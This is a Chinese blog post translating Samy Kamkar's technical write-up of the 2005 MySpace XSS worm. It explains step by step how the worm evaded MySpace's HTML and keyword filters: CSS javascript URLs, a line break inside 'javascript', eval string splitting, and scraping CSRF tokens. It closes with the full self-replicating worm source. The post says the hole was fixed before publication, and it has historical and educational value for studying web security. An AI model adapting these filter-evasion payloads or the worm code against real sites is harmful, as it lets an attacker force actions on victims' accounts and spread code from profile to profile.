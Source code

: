 ```yaml
---
layout: post
title: "[译]MySpace蠕虫技术分析"
category: front-end
excerpt: '在2005年，Samy kamkar在为Myspace社交网站新注册的账户交不到好友而感到苦恼不已。他起初的想法是让自己账户...'
---
```


[>>更好的阅读体验](https://www.zybuluo.com/lxjwlt/note/212822)

> 在2005年，Samy kamkar在为Myspace社交网站新注册的账户交不到好友而感到苦恼不已。他起初的想法是让自己账户页面更炫，这样能吸引更多女生来关注他。在对Myspace.com页面的摸索过程中，他发现页面中能够嵌入javascript代码，于是他的想法从“让账户页面更炫”，变成了，每个浏览他账户页面的用户都会把他加为好友，而每个加他好友的用户的账户页面都嵌入同样的代码，朋友的朋友也会加他为好友...在不到一天的时间里，Samy的蠕虫感染100万名用户，这是Web安全史上第一重量级的XSS蠕虫。下面是Samy公布的该蠕虫的技术分析，文中有介绍到蠕虫代码是如何绕开Myspace.com的敏感词过滤的，还有他对其中技术难点的思考过程。这篇文章让我惊艳，其中技术难点的攻破非常有启发意义，所以粗略的译了译，希望和大家分享。

Myspace蠕虫也叫做“Samy蠕虫”或“JS.Spacehero蠕虫”。

[点击这里，查看MySpace蠕虫实现、发表以及紧接着“狂欢“的整个过程](http://samy.pl/popular)

在最下面附上MySapce蠕虫的全部源代码。

请注意，这代码以及分析是在MySpace网站解决了该蠕虫之后才公布的。

这些技术公布出来的时候，它们已经无法在MySpace上发挥作用了，所以现在这些技术都失效了。否则，这恐怕已经一团糟了。

好，让我们来更深入的探讨一下，这些问题的产生，它的背景，以及在通常情况下，它是如何生效的。

1）Myspace网站过滤了许多标签。事实上，他们貌似只保留了`<a>`标签、`<img>`标签和`<div>`标签...可能还有其他的（`<embed>`标签，也许吧）。他们禁止了`<script>`标签、`<body>`标签、onClick标签属性、on前缀的所有标签属性、包含javascript代码的href属性，等等...然而，一些浏览器（IE，某些版本的Safari，等等）允许CSS标签中带有javascript代码。例如：

```html
<div style="background:url('javascript:alert(1)')">
```

2) 因为我们已经使用了单引号和双引号，所以在该`<div>`标签里不能再使用引号了。这让JS代码编写起来非常的困难。为了解决这个问题，我们使用一个表达式来存储JS代码，然后通过name查询来执行它：

```html
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
```

3) 非常好！现在我们可以在javascript代码中使用单引号了。然而，Myspace网站过滤了“javascript”等敏感词。为了绕开这个限制，我们了解到，一些浏览器会将“java\nscript”解析为“javascript”（即java<换行>script）：

```html
<div id="mycode" expr="alert('hah!')" style="background:url('java 
script:eval(document.all.mycode.expr)')">
```

4) OK，即使我们让单引号生效了，但有时候我们也需要双引号。我们可以对双引号进行转义，比如：“foo\"bar”。但Myspace网站猜到我会这么做...他们过滤了所有转义过的引号，无论是单引号还是双引号。但是，我们在javascript中可以将数值转换成ASCII码来生成引号：

```html
<div id="mycode" expr="alert('double quote: ' + String.fromCharCode(34))" style="background:url('java 
script:eval(document.all.mycode.expr)')">
```

5) 为了把代码提交到用户的账户页面中，我们需要得到页面的源码。啊哈，我们可以使用document.body.innerHTML来得到该页面的源码，账户页面会保留浏览过（哪怕一次）该页面的用户的ID。Myspace网站又再一次猜到我的想法，它过滤了所有的“innerHTML”。为了绕开这限制，我们使用eval()来调用两个字符串，将它们拼接到一起，组合成“innerHTML”：

```html
alert(eval('document.body.inne' + 'rHTML'));
```

6) 是时候访问其他页面了。我们可能会想到用iframe标签，但很多时候（即便是隐藏的时候），iframe都不是那么有效，而且用户也会很明显的觉察到“某些事情”正在发生。所以，我们使用AJAX（XML-HTTP）来构造GET和POST请求。然而，Myspace网站过滤了一个XML-HTTP请求必要的关键字：“onreadystatechange”。再次，我们使用eval来绕开它。选用XML-http的另一原因在于，Myspace网站上执行操作的必要cookie可以很轻松地发送给后台：

```html
eval('xmlhttp.onread' + 'ystatechange = callback');
```

7) 是时候给用户的账户页面发送GET情况了，这样我们可以获取到他们当前的关注列表。我们并不是要删除任何关注的好友，我们只是想把我们自己添加到他们关注列表中。如果我们GET请求获取到了他们的账户页面，我们可以抓取到他们的英雄并保存起来，方便后面使用。之前讲过了，这对于XML-HTTP来说是很容易办到的，但是我们必须获取到浏览该页面的用户的ID。就像我们上面说道，我们可以通过获取页面源码来实现这一点。然而，现在我们需要在这个页面上对一个特殊的单词进行搜索。于是乎我们开始了搜索，如果这么做了，搜索总会找到我们自己写的代码，因为我们代码里就包含了我们要查找的那个单词...我们告诉电脑“如果这个页面包含了‘foo’单词，那么执行以下操作”，这判断语句会永远返回true，因为它总会在执行搜索的代码里找到这个单词。我们通过eval()和字符串结合的方式来避开这个问题：

```javascript
var index = html.indexOf('frien' + 'dID');
```

8) 目前为止，我们获取到了关注列表。接下来，通过构造一个XML-http的POST请求发送到添加朋友页面，把我加为好友。噢，别这样，这竟然不起作用！为什么行不通？我们在profile.myspace.com上，然而添加朋友的POST请求只能在www.myspace.com上请求。没什么大不了的，但是XML-HTTP不予许跨域发送GET/POST请求。为了避开这一限制，我们要跳转到www.myspace.com的同个url上。在www.myspace.com上你依旧能够访问到账户页面，所以将页面重新加载到我们可以进行POST操作的域名上：

```javascript
if (location.hostname == 'profile.myspace.com') 
    document.location = 'http://www.myspace.com' + location.pathname + location.search;
```

9) 我们终于可以进行POST请求了！然而，当我们发送POST请求，它却不会成功添加朋友。为什么会这样？Myspace网站给需要进行POST操作的页面生成了一个随机的哈希值（例如，“你确定要添加这位用户为好友么”页面）。如果POST请求中没有附带这个哈希值，该请求便不会生效。为了解决这个问题，我们假装是一个浏览器，在添加好友之前，用GET方式获取到对应页面，解析其源码获取到这段哈希值，然后构造POST请求的时候附上这段哈希值。

10) 当POST请求完成后，我们还要在关注列表上添加一名关注并附上蠕虫代码。代码和新增关注放在同个地方，这样我们只需要发送一个POST请求就可以了。为了获得新的哈希值，我们需要GET请求到该页面，但在此之前，我们必须重新生成POST发送的蠕虫代码。最简单的方式就是抓取我们所在账户页面中的源码，把蠕虫代码解析出来，然后POST发送出去。这能够做到，但现在所有代码都乱码了！啊，我们需要对代码进行URL编码或转义，这样POST请求才可以正确的发送这段代码。奇怪，还是不行。显然，javascript的URL编码和转义函数并不能把所有必要的东西都进行转义，所以我们需要手动来执行一些替换，让关键的数据能够成功转义。我们加上了一小段文字“但最重要的是，samy是我的偶像”。紧随其后，我们加入所有的蠕虫代码。现在，我们有了一个可”自复制“的代码了，如果你愿意，你可以将它称之为蠕虫。

11) 还有一些限制，比如标签属性赋值的最大长度，这会造成其他的问题，而且要求压缩代码，不可以有空格，模糊的变量命名，可复用的函数，等等...

还有少部分需要解决的技术难点。无论怎么说，这都不是一个一帆风顺的过程，而且这也不是想要造成任何伤害或想要激怒任何人。这只是兴趣使然。这过程让人觉得很有趣很好玩！

最后附上源码：

```html
<div id=mycode style="BACKGROUND: url('java 
script:eval(document.all.mycode.expr)')" expr="var B=String.fromCharCode(34);var A=String.fromCharCode(39);function g(){var C;try{var D=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return C}else{return eval('document.body.inne'+'rHTML')}}function getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function getQueryParams(){var E=document.location.search;var F=E.substring(1,E.length).split('&');var AS=new Array();for(var O=0;O<F.length;O++){var I=F[O].split('=');AS[I[0]]=I[1]}return AS}var J;var AS=getQueryParams();var L=AS['Mytoken'];var M=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}function getClientFID(){return findIn(g(),'up_launchIC( '+A,A)}function nothing(){}function paramsToString(AV){var N=new String();var O=0;for(var P in AV){if(O>0){N+='&'}var Q=escape(AV[P]);while(Q.indexOf('+')!=-1){Q=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){Q=Q.replace('&','%26')}N+=P+'='+Q;O++}return N}function httpSend(BH,BI,BJ,BK){if(!J){return false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeader('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK.length)}J.send(BK);return true}function findIn(BF,BB,BC){var R=BF.indexOf(BB)+BB.length;var S=BF.substring(R,R+1024);return S.substring(0,S.indexOf(BC))}function getHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}function getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';var V=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var X=W.indexOf(T);var Y=W.substring(0,X);return Y}function getXMLObj(){var Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e){Z=false}}else if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=new ActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return Z}var AA=g();var AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);var AD=AC.indexOf('D'+'IV');var AE=AC.substring(0,AD);var AF;if(AE){AE=AE.replace('jav'+'a',A+'jav'+'a');AE=AE.replace('exp'+'r)','exp'+'r)'+A);AF=' but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'}var AG;function getHome(){if(J.readyState!=4){return}var AU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</td>');AG=AG.substring(61,AG.length);if(AG.indexOf('samy')==-1){if(AF){AG+=AF;var AR=getFromURL(AU,'Mytoken');var AS=new Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();httpSend('/index.cfm?fuseaction=profile.previewInterests&Mytoken='+AR,postHero,'POST',paramsToString(AS))}}}function postHero(){if(J.readyState!=4){return}var AU=J.responseText;var AR=getFromURL(AU,'Mytoken');var AS=new Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getHiddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function main(){var AN=getClientFID();var BH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSend(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&Mytoken='+L,processxForm,'GET')}function processxForm(){if(xmlhttp2.readyState!=4){return}var AU=xmlhttp2.responseText;var AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var AS=new Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return false}eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return true}"></DIV>
```

\- samy